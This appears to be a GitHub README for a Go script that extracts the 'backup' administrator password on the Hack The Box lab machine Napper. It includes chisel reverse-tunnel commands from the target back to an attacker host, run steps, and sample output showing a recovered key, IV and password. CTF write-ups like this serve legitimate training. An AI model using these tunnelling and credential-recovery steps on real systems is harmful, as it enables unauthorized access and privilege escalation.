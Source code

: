 ## About

A GO Lang script that will get you the password for the Administrator user `backup` on [Napper](https://app.hackthebox.com/machines/Napper).<br>

## Requirements

Your machine has to be linked to Napper with a reverse port forwarding on port 9200. Here's a way to do it using Chisel.
  - Run this on your linux machine:
```console
user@kali:~$ chisel server -p 9000 --reverse
user@kali:~$
```
  - Run this on Napper:
```console
C:\Users\ruben\Desktop> chisel.exe client <YOUR_IP>:9000 R:9200:127.0.0.1:9200
C:\Users\ruben\Desktop> 
```
> **Change `<YOUR_IP>` with your `tun0` IP address.**<br>
> *You can also use an available port different than 9000 if you want.<br>
> `chisel.exe` is **NOT** installed by default on Napper. It is your job to get it on Napper before using this script.*

Obviously GO has to be installed on your linux machine (where the script will be executed). If you don't have it installed yet, visit [this link](https://go.dev/doc/install).<br>

## Usage

Firstly you download the script. After that you give the script the execution permission. Finally you run the script.
```console
user@kali:~$ wget https://github.com/0tonoon/Napper_Script/blob/main/Pass_script
user@kali:~$ sudo chmod +x Pass_script
user@kali:~$ go run Pass_script
user@kali:~$ 
```
If all went well, it will produce an output similar to this:
```console
Key: 6b871be7d935fc2a7d2a974b798e6c9b
IV: 87f47937c807cf2c6c98e01a11684ea7
Encrypted Data: 3c09b34edb32df9cb252ae6f7c84e8b61ddaf9ee88508f79c104f3d7ee61317ed38eb8cfb2173e16
Decrypted Data: qFrbskeXMiWlmnyqtlrwkqqHmcztbBmXUdfAlgvn
```
<hr>

`Decrypted Data` is the password for the `backup`. Now it's your turn to find a way to use it and finish your privesc.
